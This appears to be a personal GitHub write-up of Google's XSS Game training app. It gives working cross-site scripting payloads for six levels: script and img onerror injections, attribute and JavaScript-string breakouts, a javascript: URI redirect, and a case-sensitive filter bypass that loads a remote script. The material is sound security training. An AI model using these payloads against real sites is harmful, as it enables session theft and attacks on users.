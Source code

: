 # Notes on Google's [XSS Game][1] Web App

## [Level 1](https://xss-game.appspot.com/level1)
Level 1 is vulnerable to a Reflected XSS attack. It can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```

## [Level 2](https://xss-game.appspot.com/level2)
Level 2 is about Stored (aka persistent) XSS. This level seems to have some filtering to prevent you from injecting `<script>` tags. But it does allow `<img>` tags. And `<img>` tags allow handlers (like `onerror`) which can contain Javascript:

```
<img src="x" onerror="alert('xss')">
```

Once that attack string is submitted through the form field, every time the page loads, our Javascript will run in the user's browser - any user - they just have to visit this page. This is why stored XSS is more dangerous than Reflected XSS.

I could not figure out a way to inject the code directly into the URL.

## [Level 3](https://xss-game.appspot.com/level3)
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```code
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I copied Safari's cookie called "level3". To do this:

1. I configured Safari to use the Burp proxy.
1. I exploited Level 1 and 2 as described above.
1. I visited the URL for level three, with the attack code appended, as shown above. When the `alert()` popped up, the game set a new cookie called `level3`.
1. I copied the name and value of the third cookie:

  ```code
  level1=f148716ef4ed1ba0f192cde4618f8dc5;
  level2=b5e530302374aa71cc3028c810b63641;
  level3=d5ce029d0680b3816a349da0d055fcfa;
  ```

  Here's how to set a new cookie in FF or Chrome using the console in dev tools:

  ```javascript
  document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
  ```

Now you can advance to level 4 in FF or Chrome. But, unlike the other cookies set by the game, the manually-set cookie will be set to expire at the end of the session. So if you close your browser tab for `xss-game.appspot.com`, then open a new tab to that website, you'll find that you can't go to Level 4. This is because the `level3` cookie expired when the previous session ended. So the better way to manually set that cookie is to include a value for the `expires` attribute:

```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa;expires='Fri, 22 July 2022 5:34:56 GMT'";
```

You can set several other cookie attributes like this, but the [specification][2] for `document.cookie` is very detailed and specific about syntax.


## [Level 4](https://xss-game.appspot.com/level4)

I couldn't figure out Level 4. I had to Google somebody else's answer and then play with it because it was not working as they described. Eventually I found that, in all three browsers, this string worked if you input it into the form field and clicked the "create timer" button.

```
');alert();var b=('
```

But to get this attack to work by injecting directly into the URL, you first have to URL-encode the attack string:

```
%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

There are websites that will do this for you. But they can be buggy and unreliable. Recently I've been using this, which is included by default with Python 2.7.x:

```python
>>> import urllib
>>> foo = "');alert();var b=('"
>>> urllib.quote_plus(foo)
'%27%29%3Balert%28%29%3Bvar+b%3D%28%27'
```

Remember to surround the attack string with double quotes in the variable assignment. Also remember to remove the outer single quotes that Python added to the output. It's slightly different in Python 3. I learned about this in an [answer][3] on StackExchange.com.

Now, similar to the URL assembly we did for Level 1, we need to prepend the attack string with the right variable name, preceded by a `?` and followed by a `=`. We're concatenating these elements:

1. `https://xss-game.appspot.com/level4/frame`
2. `?timer=`
3. `%27%29%3Balert%28%29%3Bvar+b%3D%28%27`

Which becomes:

```code
https://xss-game.appspot.com/level4/frame?timer=%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

Now just click the "Go" button in the fake browser.


## [Level 5](https://xss-game.appspot.com/level5)
To get through this level you have to do these in order:

1. Click on the "Sign up" link.
2. On the next page the URL will have changed to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```

   In the URL, change the value of `next` from `confirm` to `javascript:alert(1)`.
3. Click the "Go" button, which is part of the fake browser. Clicking this button changes the value of the `href` for the "Next >>" link. Before you click the "Go" button, if you hover over the "Next >>" link, the target shown in the hoverbox is:

   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```

   And in fact the `href` value is a relative link, simply `confirm`. After changing `confirm` to `javascript:alert(1)`, the URL is now set to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```

   Click the "Go" button. Now if you hover over that same "Next >>" link, the target shown in the hoverbox is now just:

   ```
   javascript:alert(1)
   ```

   By the user having edited the URL manually, that link's `href` value had changed to the user's input.
4. Click the "Next >>" link. The alert pops up and the game sets a new cookie and displays a banner saying that you may now go on to the next level.

I think the lesson here was that if you can't inject any tags you can still inject the `javascript:` resource identifier before the actual Javascript code. I had to click on all four hints until I followed Hint 4's link to [this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00).


## [Level 6](https://xss-game.appspot.com/level6)
For Level 6 I had to look up the answer. It turns out that a custom client-side filtering regex was case sensitive when filtering out URLs beginning with `http` or `https`. So this is the successful URL:

```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```

Notice that I've used one of the non-malicious Javascript files available at [xss.rocks][4].

I never would have guessed this solution. I did look at the source code and I figured that the regex in the following function was stopping me from injecting an `http` or `https` into the URL. I guess I was being lazy by not taking the regex somewhere and testing it. For this documentation I tested the regex at the w3schools.com ["Try It" page][5] for the Javascript string `match()` method.

This function can be found on line 57 of the source code of the page for Level 6:

```javascript
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```

The regex is `/^https?:\/\//` and will match `http` or `https`. But if the developer had appended `i` to the regex, then it would have matched any combination of upper and lower case versions of those strings. The case-insensitive regex would be `/^https?:\/\//i`

I guess the lesson in this level was that you should read through all the source code (HTML and JS) to see if the developers wrote any client-side filtering code, and if they made any mistakes in doing so.


[1]: https://xss-game.appspot.com/
[2]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie
[3]: http://stackoverflow.com/a/9345102
[4]: http://xss.rocks/
[5]: http://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_match_regexp2
